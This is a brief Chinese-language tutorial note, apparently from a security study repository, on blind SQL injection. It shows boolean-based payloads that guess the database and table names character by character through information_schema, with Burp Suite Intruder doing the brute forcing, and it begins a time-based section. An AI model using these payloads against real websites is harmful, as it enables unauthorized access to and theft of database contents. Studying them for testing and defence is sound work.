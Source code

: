 # 无显注入法--无法通过页面直接显示数据和错误信息
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 布尔盲注
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 配合Burpsuite快速匹配
![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;注入流程:
```sql
    判断语句末尾加上 %23
查库: and left((select database()),1)='s'
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 时间盲注
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/B435E9AB095D69230969F8256C149BB5.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 配合Burpsuite快速匹配
![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)




